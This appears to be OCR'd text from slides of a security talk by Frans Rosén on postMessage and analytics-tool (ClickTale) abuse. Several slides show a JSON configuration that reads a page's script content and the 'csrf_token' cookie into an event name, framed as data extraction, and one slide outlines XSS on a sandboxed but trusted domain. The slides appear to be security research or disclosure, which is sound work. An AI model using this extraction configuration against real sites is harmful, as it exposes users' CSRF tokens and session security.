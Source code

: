  Author name her Frans Rosén @fransrosen 

State: 

 																				...	 "states":	{	 "type":	"JSVariableExists",		 "name":	"ClickTaleCookieDomain",		 "value":	"example.com" 																				},	 																				...	 

##### Data-Extraction 

---

 Author name her 

##### Data-Extraction 

 Frans Rosén @fransrosen 

Action: 

 				...	 "action":	{	 "actualType":	"CTEventAction",		 "type":	"TestRuleEvent",		 "dynamicEventName":	{	 "parts":	[	 																{	 "type":	"ElementValue",		 "ctSelector":	{	 "querySelector":	".content-wrapper	script" 																				}	 																},		 																{	 "type":	"CookieValue",		 "name":	"csrf_token" 																}	 												]	 								}	 				}	 

---

 Author name her 

##### Data-Extraction 

 Frans Rosén @fransrosen 

Payload: 

---

 Author name her 

##### Data-Extraction 

 Frans Rosén @fransrosen 

CSRF-token! 

---

 Author name her 

##### XSS on isolated but "trusted" domain 

 Frans Rosén @fransrosen 

Sandboxed domain being trusted and not trusted at the same time. 

postMessage used to transfer data from/to trusted domain. 

---

 Author name her 

##### Document service 
